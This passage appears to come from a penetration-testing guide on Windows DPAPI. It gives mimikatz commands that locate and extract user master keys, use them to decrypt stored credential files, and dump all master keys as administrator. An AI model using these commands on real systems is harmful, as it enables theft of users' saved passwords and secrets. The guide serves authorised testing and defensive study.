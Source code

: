 This is what a bunch of Master Keys of a user will looks like:

![](<../../.gitbook/assets/image (324).png>)

Usually **each master keys is an encrypted symmetric key that can decrypt other content**. Therefore, **extracting** the **encrypted Master Key** is interesting in order to **decrypt** later that **other content** encrypted with it.

### Extract master key & decrypt

In the previous section we found the guidMasterKey which looked like `3e90dd9e-f901-40a1-b691-84d7f647b8fe`, this file will be inside:

```
C:\Users\<username>\AppData\Roaming\Microsoft\Protect\<SID>
```

For where you can extract the master key with mimikatz:

```bash
# If you know the users password
dpapi::masterkey /in:"C:\Users\<username>\AppData\Roaming\Microsoft\Protect\S-1-5-21-2552734371-813931464-1050690807-1106\3e90dd9e-f901-40a1-b691-84d7f647b8fe" /sid:S-1-5-21-2552734371-813931464-1050690807-1106 /password:123456 /protected

# If you don't have the users password and inside an AD
dpapi::masterkey /in:"C:\Users\<username>\AppData\Roaming\Microsoft\Protect\S-1-5-21-2552734371-813931464-1050690807-1106\3e90dd9e-f901-40a1-b691-84d7f647b8fe" /rpc
```

The master key of the file will appear in the output.

Finally, you can use that **masterkey** to **decrypt** the **credential file**:

```
mimikatz dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\28350839752B38B238E5D56FDD7891A7 /masterkey:0c0105785f89063857239915037fbbf0ee049d984a09a7ae34f7cfc31ae4e6fd029e6036cde245329c635a6839884542ec97bf640242889f61d80b7851aba8df
```

### Extract all local Master Keys with Administrator

If you are administrator you can obtain the dpapi master keys using:

```
sekurlsa::dpapi
```
